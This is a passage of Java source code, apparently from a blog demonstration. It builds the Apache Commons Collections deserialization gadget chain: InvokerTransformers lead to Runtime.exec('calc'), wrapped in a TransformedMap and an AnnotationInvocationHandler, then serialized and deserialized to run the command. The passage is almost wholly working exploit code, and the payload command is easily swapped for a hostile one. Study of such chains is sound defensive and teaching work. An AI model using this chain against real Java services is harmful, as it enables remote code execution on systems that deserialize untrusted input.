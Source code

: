 ```java
                    new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                    new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
                    new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
            };

            ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

            HashMap<Object, Object> hashMap = new HashMap<>();
            hashMap.put("value", "value");
            Map<Object, Object> transformedMap = TransformedMap.decorate(hashMap, null, chainedTransformer);

            Class<?> aihClass = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
            Constructor<?> aihClassConstructor = aihClass.getDeclaredConstructor(Class.class, Map.class);
            aihClassConstructor.setAccessible(true);
            Object object = aihClassConstructor.newInstance(Target.class, transformedMap);
            serialize(object);
            deserialize("serialize.bin");

        } catch (Exception e) {
            throw new RuntimeException(e);
        }
    }

    public static void serialize(Object object) {
        try (FileOutputStream fos = new FileOutputStream("serialize.bin");
             ObjectOutputStream oos = new ObjectOutputStream(fos)) {
            oos.writeObject(object);
        } catch (Exception e) {
            throw new RuntimeException(e);
        }
    }

    public static Object deserialize(String filename) {
        try (FileInputStream fis = new FileInputStream(filename);
             ObjectInputStream ois = new ObjectInputStream(fis)) {
            return ois.readObject();
        } catch (Exception e) {
            throw new RuntimeException(e);
        }
    }
}
```
{: .nolineno file="com.B1ng0OOO.Demo"}
